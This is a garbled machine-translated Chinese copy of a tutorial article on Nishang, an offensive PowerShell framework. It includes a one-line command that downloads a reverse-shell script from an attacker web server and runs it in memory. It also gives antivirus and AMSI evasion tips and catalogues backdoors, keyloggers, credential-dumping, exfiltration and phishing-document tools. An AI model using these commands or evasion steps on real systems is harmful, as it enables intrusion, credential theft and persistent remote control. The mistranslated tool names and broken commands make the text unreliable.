

# 霓裳:红队的进攻 PowerShell，渗透测试和进攻安全

> 原文：<https://kalilinuxtutorials.com/nishang/>

Nishang 是一个脚本和有效负载的框架和集合，支持将 PowerShell 用于攻击性安全、渗透测试和 red teaming。Nishang 在渗透测试的所有阶段都是有用的。

**用途**

导入当前 PowerShell 会话中的所有脚本(PowerShell v3 以上)。

PS C:\霓裳>导入-模块。\nishang.psm1

将单独的脚本用于点源。

**PS C:\霓裳>。C:\霓裳\ Gather \ Get-Information . PS1
PS C:\霓裳> Get-Information**

要获得关于任何脚本或函数的帮助，请使用:

**PS C:\霓裳>Get-Help[script name]-full**

请注意，帮助适用于运行脚本后加载的函数，而不是版本 0.3.8 以后的脚本本身。在所有情况下，函数名与脚本名相同。

例如，要查看关于 Get-WLAN-Keys.ps1 的帮助，请使用

**PS C:\霓裳>。C:\ nishang \ Get-WLAN-Keys . PS1
PS C:\ nishang>Get-Help Get-WLAN-Keys-Full**

**反病毒**

霓裳脚本被许多反病毒标记为恶意。目标上的脚本应该在内存中使用，使用 PowerShell 很容易做到这一点。在内存中执行 PowerShell 脚本的两种基本方法:

方法一。使用内存中的下载和执行:使用下面的命令从远程 Shell、meterpreter 本机 shell、web shell 等执行 PowerShell 脚本。以及由其导出的函数。Nishang 中的所有脚本都在当前 PowerShell 会话中导出了一个同名的函数。

powershell iex(新对象网络。WebClient)。download string(' http://<yourwebserver>/Invoke-powershell TCP . PS1 ')；invoke-powershell TCP-Reverse-IP address[IP]-Port[Port no .]</yourwebserver>

方法二。使用 PowerShell 的 **`-encodedcommand`(或`-e` )** 参数，霓裳中的所有脚本都会在当前 PowerShell 会话中导出一个同名函数。因此，在从非 PowerShell shell 中使用 encodedcommand 参数时，请确保在脚本本身中进行函数调用。对于上面的例子，添加一个函数调用`**"Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]"**`(不带引号)。

使用来自 Nishang 的 Invoke-Encode 对 scrript 进行编码:

**PS C:\霓裳>。\ nishang \ Utility \ Invoke-Encode

PS C:\ nishang>Invoke-Encode-DataToEncode C:\ nishang \ shell \ Invoke-powershell TCP . PS1-out command**

*   写入的编码数据。\ encoded.txt
*   编码命令已写入。\encodedcommand.txt

从上面开始，使用 encodedcommand.txt 中的编码脚本，并在可以执行命令的目标上运行它(远程 shell、meterpreter 本机 shell、web shell 等)。).如下使用它:

**C:\ Users \ target>powershell-e【编码脚本】**

如果仍然检测到脚本，更改函数和参数名称并删除帮助内容会有所帮助。

如果 Windows 10 的 AMSI 仍然阻止脚本执行，请看这篇博客:[http://www.labofapenetrationtester.com/2016/09/amsi.html](http://www.labofapenetrationtester.com/2016/09/amsi.html)

**也读-[剪贴板 me : Grab &通过链接注入剪贴板内容](https://kalilinuxtutorials.com/clipboardme/)**

**脚本**

Nishang 目前包含以下脚本和有效负载。

**活动目录**

*   [Set-DCShadowPermissions](https://github.com/samratashok/nishang/blob/master/ActiveDirectory/Set-DCShadowPermissions.ps1)
    *   修改 AD 对象以提供 DCShadow 所需的最小权限。

**Antak——网络外壳**

*   [Antak](https://github.com/samratashok/nishang/tree/master/Antak-WebShell)
    *   使用这个 webshell 在内存中执行 PowerShell 脚本、运行命令以及下载和上传文件。

**后门**

*   [HTTP-后门](https://github.com/samratashok/nishang/blob/master/Backdoors/HTTP-Backdoor.ps1)
    *   可以从第三方网站接收指令并在内存中执行 PowerShell 脚本的后门程序。
*   [DNS_TXT_Pwnage](https://github.com/samratashok/nishang/blob/master/Backdoors/DNS_TXT_Pwnage.ps1)
    *   一种后门程序，可以从 DNS TXT 查询中接收命令和 PowerShell 脚本，在目标上执行它们，并使用查询进行远程控制。
*   [按时执行](https://github.com/samratashok/nishang/blob/master/Backdoors/Execute-OnTime.ps1)
    *   可以在给定时间在目标上执行 PowerShell 脚本的后门程序。
*   [Gupt-后门](https://github.com/samratashok/nishang/blob/master/Backdoors/Gupt-Backdoor.ps1)
    *   一种后门程序，可以从 WLAN SSID 接收命令和脚本，而无需连接到它。
*   [Add-ScrnSaveBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-ScrnSaveBackdoor.ps1)
    *   一个后门程序，可以使用 Windows 屏幕保护程序进行远程命令和脚本执行。
*   [Invoke-ADSBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Invoke-ADSBackdoor.ps1)
    *   一种后门程序，可以使用备用数据流和 Windows 注册表来实现持久性。
*   [Add-RegBackdoor](https://github.com/samratashok/nishang/blob/master/Backdoors/Add-RegBackdoor.ps1)
    *   一个后门程序，使用众所周知的调试器技巧来执行带有粘滞键和 Utilman (Windows key + U)的有效负载。
*   [Set-RemoteWMI](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemoteWMI.ps1)
    *   修改 DCOM 和 WMI 命名空间的权限，以允许非管理员用户访问。
*   [Set-RemotePSRemoting](https://github.com/samratashok/nishang/blob/master/Backdoors/Set-RemotePSRemoting.ps1)
    *   修改 PowerShell 远程处理的权限，以允许非管理员用户访问。

**旁路**

*   [调用-AmsiBypass](https://github.com/samratashok/nishang/blob/master/Bypass/Invoke-AmsiBypass.ps1)
    *   实施众所周知的方法来绕过/避免 AMSI。

**客户端**

*   [Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)
    *   创建可以执行 PowerShell 命令和脚本的受感染的 CHM 文件。
*   [出词](https://github.com/samratashok/nishang/blob/master/Client/Out-Word.ps1)
    *   创建 Word 文件并感染现有文件以运行 PowerShell 命令和脚本。
*   [出类拔萃](https://github.com/samratashok/nishang/blob/master/Client/Out-Excel.ps1)
    *   创建 Excel 文件并感染现有文件以运行 PowerShell 命令和脚本。
*   [走出 HTA](https://github.com/samratashok/nishang/blob/master/Client/Out-HTA.ps1)
    *   创建一个可以部署在 web 服务器上并用于网络钓鱼活动的 HTA 文件。
*   [Out-Java](https://github.com/samratashok/nishang/blob/master/Client/Out-Java.ps1)
    *   创建签名的 JAR 文件，这些文件可用于脚本和命令执行的小程序。
*   [Out-快捷方式](https://github.com/samratashok/nishang/blob/master/Client/Out-Shortcut.ps1)
    *   创建能够执行 PowerShell 命令和脚本的快捷方式文件。
*   [Out-WebQuery](https://github.com/samratashok/nishang/blob/master/Client/Out-WebQuery.ps1)
    *   为网络钓鱼凭据和 SMB 哈希创建 IQY 文件。
*   [Out-JS](https://github.com/samratashok/nishang/blob/master/Client/Out-JS.ps1)
    *   创建能够执行 PowerShell 命令和脚本的 JS 文件。
*   [Out-SCT](https://github.com/samratashok/nishang/blob/master/Client/Out-SCT.ps1)
    *   创建能够执行 PowerShell 命令和脚本的 SCT 文件。
*   [Out-SCF](https://github.com/samratashok/nishang/blob/master/Client/Out-SCF.ps1)
    *   创建一个可用于捕获 NTLM 哈希质询的 SCF 文件。

**升级**

*   [使能-复制许可](https://github.com/samratashok/nishang/blob/master/Escalation/Enable-DuplicateToken.ps1)
    *   当需要系统特权时。
*   [移除-更新](https://github.com/samratashok/nishang/blob/master/Escalation/Remove-Update.ps1)
    *   通过删除补丁引入漏洞。
*   [Invoke-PsUACme](https://github.com/samratashok/nishang/blob/master/Escalation/Invoke-PsUACme.ps1)
    *   绕过 UAC。

**执行**

*   [下载-执行-PS](https://github.com/samratashok/nishang/blob/master/Execution/Download-Execute-PS.ps1)
    *   在内存中下载并执行 PowerShell 脚本。
*   [下载 _ 执行](https://github.com/samratashok/nishang/blob/master/Execution/Download_Execute.ps1)
    *   下载文本格式的可执行文件，将其转换为可执行文件，然后执行。
*   [执行命令 MSSQL](https://github.com/samratashok/nishang/blob/master/Execution/Execute-Command-MSSQL.ps1)
    *   在具有足够权限的 MSSQL Server 上运行 PowerShell 命令、本机命令或 SQL 命令。
*   [执行-dnst XT-代码](https://github.com/samratashok/nishang/blob/master/Execution/Execute-DNSTXT-Code.ps1)
    *   使用 DNS TXT 查询在内存中执行外壳代码。
*   [Out-RundllCommand](https://github.com/samratashok/nishang/blob/master/Execution/Out-RundllCommand.ps1)
    *   使用 rundll32.exe 执行 PowerShell 命令和脚本或反向 PowerShell 会话。

**聚集**

*   [检查虚拟机](https://github.com/samratashok/nishang/blob/master/Gather/Check-VM.ps1)
    *   检查虚拟机。
*   [拷贝-VSS](https://github.com/samratashok/nishang/blob/master/Gather/Copy-VSS.ps1)
    *   使用卷影复制服务复制 SAM 文件。
*   [Invoke-CredentialsPhish](https://github.com/samratashok/nishang/blob/master/Gather/Credentials.ps1)
    *   诱骗用户以纯文本形式提供凭据。
*   [救火队](https://github.com/samratashok/nishang/blob/master/Gather/FireBuster.ps1) [听火人](https://github.com/samratashok/nishang/blob/master/Gather/FireListener.ps1)
    *   一对用于出口测试的脚本
*   [获取信息](https://github.com/samratashok/nishang/blob/master/Gather/Get-Information.ps1)
    *   从目标那里获取有价值的信息。
*   [Get-LSASecret](https://github.com/samratashok/nishang/blob/master/Gather/Get-LSASecret.ps1)
    *   从目标那里得到 LSA 的秘密。
*   [Get-PassHashes](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHashes.ps1)
    *   从目标获取密码哈希。
*   [获取无线局域网密钥](https://github.com/samratashok/nishang/blob/master/Gather/Get-WLAN-Keys.ps1)
    *   从目标获取明文形式的 WLAN 密钥。
*   [键盘记录器](https://github.com/samratashok/nishang/blob/master/Gather/Keylogger.ps1)
    *   记录来自目标的击键。
*   [调用-MimikatzWdigestDowngrade](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-MimikatzWDigestDowngrade.ps1)
    *   在 Windows 8.1 和 Server 2012 上以明文形式转储用户密码
*   [Get-pass 提示](https://github.com/samratashok/nishang/blob/master/Gather/Get-PassHints.ps1)
    *   从目标获取 Windows 用户的密码提示。
*   [显示-目标屏幕](https://github.com/samratashok/nishang/blob/master/Gather/Show-TargetScreen.ps1)
    *   连接回来，并使用 MJPEG 流目标屏幕。
*   [调用-Mimikatz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikatz.ps1)
    *   在内存中加载 mimikatz。更新和一些定制。
*   [调用-Mimikittenz](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-Mimikittenz.ps1)
    *   使用 regex 从目标进程(如浏览器)内存中提取有用的信息。
*   [调用-SSIDExfil](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SSIDExfil.ps1)
    *   使用 WLAN SSID 过滤用户凭证等信息。
*   [调用-SessionGopher](https://github.com/samratashok/nishang/blob/master/Gather/Invoke-SessionGopher.ps1)
    *   识别用于访问 Unix 机器的管理跳转框和/或计算机。

**MITM**

*   [调用拦截器](https://github.com/samratashok/nishang/blob/master/MITM/Invoke-Interceptor.ps1)
    *   MITM 袭击的 HTTPS 当地代理人。

**枢轴**

*   [创建多个会话](https://github.com/samratashok/nishang/blob/master/Pivot/Create-MultipleSessions.ps1)
    *   检查多台计算机上的凭据并创建 PSSessions。
*   [运行-执行远程](https://github.com/samratashok/nishang/blob/master/Pivot/Run-EXEonRemote.ps1)
    *   在多台机器上复制并执行可执行文件。
*   [调用-网络中继](https://github.com/samratashok/nishang/blob/master/Pivot/Invoke-NetworkRelay.ps1)
    *   在计算机之间创建网络中继。

普拉萨德哈

*   普拉萨德哈
    *   对照 VirusTotal 数据库检查正在运行的进程的运行哈希。

**扫描**

*   [蛮力](https://github.com/samratashok/nishang/blob/master/Scan/Brute-Force.ps1)
    *   强力 FTP、Active Directory、MSSQL 和 Sharepoint。
*   [端口扫描](https://github.com/samratashok/nishang/blob/master/Scan/Port-Scan.ps1)
    *   一个方便的端口扫描仪。

**Powerpreter**

*   [Powerpreter](https://github.com/samratashok/nishang/tree/master/powerpreter)
    *   nishang 的所有功能都在一个脚本模块中。

**炮弹**

*   [调用-PsGcat](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PsGcat.ps1)
    *   向指定的 Gmail 帐户发送命令和脚本，由 Invoke-PsGcatAgent 执行
*   [调用-PSG 代理](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PsGcatAgent.ps1)
    *   执行 Invoke-PsGcat 发送的命令和脚本。
*   [调用-PowerShellTcp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)
    *   交互式 PowerShell 反向连接或绑定外壳
*   [调用-PowerShellTcpOneLine](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLine.ps1)
    *   Invoke-PowerShellTcp 的精简版本。还包含一个可以放入两条推文的框架版本。
*   [调用-PowerShellTcpOneLineBind](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcpOneLineBind.ps1)
    *   Invoke-PowerShellTcpOneLine 的绑定版本。
*   [调用-PowerShellUdp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdp.ps1)
    *   UDP 上的交互式 PowerShell 反向连接或绑定外壳
*   [调用-PowerShellUdpOneLine](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellUdpOneLine.ps1)
    *   Invoke-PowerShellUdp 的精简版本。
*   [调用-PoshRatHttps](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PoshRatHttps.ps1)
    *   HTTPS 的反向互动 PowerShell。
*   [调用-PoshRatHttp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PoshRatHttp.ps1)
    *   HTTP 上的反向交互式 PowerShell。
*   [移除-PoshRat](https://github.com/samratashok/nishang/blob/master/Shells/Remove-PoshRat.ps1)
    *   使用 Invoke-PoshRatHttps 后清理系统
*   [调用-PowerShellWmi](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellWmi.ps1)
    *   使用 WMI 的交互式 PowerShell。
*   [调用-PowerShellIcmp](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1)
    *   基于 ICMP 的交互式 PowerShell 反向外壳。
*   [调用-JSRatRundll](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-JSRatRundll.ps1)
    *   使用 rundll32.exe 的 HTTP 上的交互式 PowerShell 反向外壳。
*   [调用-JSRatRegsvr](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-JSRatRegsvr.ps1)
    *   使用 regsvr32.exe 的 HTTP 上的交互式 PowerShell 反向外壳。

**效用**

*   [添加-渗出](https://github.com/samratashok/nishang/blob/master/Utility/Add-Exfiltration.ps1)
    *   为 Gmail、Pastebin、web 服务器和任何脚本的 DNS 添加数据过滤功能。
*   [添加持久性](https://github.com/samratashok/nishang/blob/master/Utility/Add-Persistence.ps1)
    *   向脚本添加重新启动持久性功能。
*   [移除持久性](https://github.com/samratashok/nishang/blob/master/Utility/Remove-Persistence.ps1)
    *   由 Add-Persistence 脚本添加的远程持久性。
*   [溶解氧渗出](https://github.com/samratashok/nishang/blob/master/Utility/Do-Exfiltration.ps1)
    *   将它通过管道(|)连接到任何脚本，以导出输出。
*   [下载](https://github.com/samratashok/nishang/blob/master/Utility/Download.ps1)
    *   将文件传输到目标。
*   [Parse_Keys](https://github.com/samratashok/nishang/blob/master/Utility/Parse_Keys.ps1)
    *   解析键盘记录器记录的键。
*   [调用编码](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Decode.ps1)
    *   编码和压缩脚本或字符串。
*   [调用-解码](https://github.com/samratashok/nishang/blob/master/Utility/Invoke-Decode.ps1)
    *   从 Invoke-Encode 解码和解压缩脚本或字符串。
*   [开始-捕获服务器](https://github.com/samratashok/nishang/blob/master/Utility/Start-CaptureServer.ps1)
    *   运行记录基本身份验证和 SMB 哈希的 web 服务器。
*   [转换到 ROT13](https://github.com/samratashok/nishang/blob/master/Utility/ConvertTo-ROT13.ps1)
    *   将字符串编码为 ROT13 或解码 ROT13 字符串。
*   [Out-DnsTxt](https://github.com/samratashok/nishang/blob/master/Utility/Out-DnsTxt.ps1)
    *   生成可用于其他脚本的 DNS TXT 记录。
*   [Base64ToString]
*   [字符串表 64]
*   [ExetoText]
*   [文本执行]

[**Download**](https://github.com/samratashok/nishang)